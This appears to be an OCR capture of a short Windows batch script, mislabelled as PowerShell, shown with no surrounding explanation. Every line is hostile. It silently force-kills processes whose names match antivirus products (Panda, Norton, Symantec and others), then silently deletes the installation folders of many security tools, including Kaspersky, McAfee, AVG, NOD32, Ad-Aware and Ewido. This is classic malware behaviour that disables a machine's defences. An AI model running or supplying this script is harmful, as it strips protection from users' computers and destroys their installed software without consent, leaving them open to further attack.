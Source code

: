   ```powershell
  taskkill /F /IM pav* >NUL
  taskkill /F /IM padmin* >NUL
  taskkill /F /IM panda* >NUL
  taskkill /F /IM avsch* >NUL
  taskkill /F /IM sche* >NUL
  taskkill /F /IM syman* >NUL
  taskkill /F /IM virus* >NUL
  taskkill /F /IM realm* >NUL
  taskkill /F /IM sweep* >NUL
  taskkill /F /IM scan* >NUL
  taskkill /F /IM ad-* >NUL
  taskkill /F /IM safe* >NUL
  taskkill /F /IM avas* >NUL
  taskkill /F /IM norm* >NUL
  taskkill /F /IM offg* >NUL
  RMDIR /Q "C:\Program Files\alwils~1" /S >NUL
  RMDIR /Q "C:\Program Files\Lavasoft\Ad-awa~1" /S >NUL
  RMDIR /Q "C:\Program Files\kasper~1" /S >NUL
  RMDIR /Q "C:\Program Files\trojan~1" /S >NUL
  RMDIR /Q "C:\Program Files\f-prot95" /S >NUL
  RMDIR /Q "C:\Program Files\tbav" /S >NUL
  RMDIR /Q "C:\Program Files\avpersonal" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\Mcafee" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1\Norton~3" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1\speedd~1" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\avgamsr" /S >NUL
  RMDIR /Q "C:\Program Files\avgamsvr" /S >NUL
  RMDIR /Q "C:\Program Files\avgemc" /S >NUL
  RMDIR /Q "C:\Program Files\avgcc" /S >NUL
  RMDIR /Q "C:\Program Files\avgupsvc" /S >NUL
  RMDIR /Q "C:\Program Files\grisoft" /S >NUL
  RMDIR /Q "C:\Program Files\nood32krn" /S >NUL
  RMDIR /Q "C:\Program Files\nood32" /S >NUL
  RMDIR /Q "C:\Program Files\nod32" /S >NUL
  RMDIR /Q "C:\Program Files\nood32" /S >NUL
  RMDIR /Q "C:\Program Files\kav" /S >NUL
  RMDIR /Q "C:\Program Files\kavmm" /S >NUL
  RMDIR /Q "C:\Program Files\kaspersky" /S >NUL
  RMDIR /Q "C:\Program Files\ewidoctrl" /S >NUL
  RMDIR /Q "C:\Program Files\guard" /S >NUL
  RMDIR /Q "C:\Program Files\ewido" /S >NUL
  RMDIR /Q "C:\Program Files\pavprsrv" /S >NUL
  RMDIR /Q "C:\Program Files\pavprot" /S >NUL
  RMDIR /Q "C:\Program Files\avengine" /S >NUL
  RMDIR /Q "C:\Program Files\apvxdwin" /S >NUL
  RMDIR /Q "C:\Program Files\webproxy" /S >NUL
  RMDIR /Q "C:\Program Files\panda software" /S >NUL
  ```
